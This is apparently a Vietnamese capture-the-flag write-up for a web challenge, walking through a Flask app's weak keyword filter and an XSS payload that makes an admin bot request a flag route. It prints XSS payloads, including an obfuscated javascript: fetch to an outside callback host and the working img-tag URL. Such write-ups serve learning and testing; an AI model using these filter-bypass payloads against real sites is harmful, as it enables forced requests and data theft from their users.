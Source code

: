 Đọc source code thì thấy ở route `vuln` có thể khai thác xss
```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```
Code replace các string "frame", "script", "on" thành "*" mình đã thử dùng thẻ object mà không hiểu tại sao lại không hoạt động

```
<object data="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+"></object>
<object/data="jav&#x61;sc&#x72;ipt&#x3a;fetch('http://pmruqjmg.requestrepo.com')">
```
Sau khi đọc source một hồi mình thấy có manh mối ở route `/admin/notice_flag` 
```python
@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"
```
Trong route này nếu có ip `127.0.0.1` request tới với param `userid=admin` thì sẽ ghép flag vào biến `memo_text` (được khai báo global). Mà biến này thì có thể lấy thông tin thông qua route `/memo`
```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.jinja2", memo=memo_text)
```
Việc cần làm bây giờ lại tạo payload xss trên route `/vuln` để bot truy cập vào route `/admin/notice_flag`. Ở đây mình sử dụng thẻ img với payload 
```
http://103.97.125.56:30458/vuln?param=%3Cimg%20src=%22/admin/notice_flag?userid=admin%22%3E
```
Sau khi gửi payload cho bot trong `/flag` thì vào `memo` để lấy flag thôi.
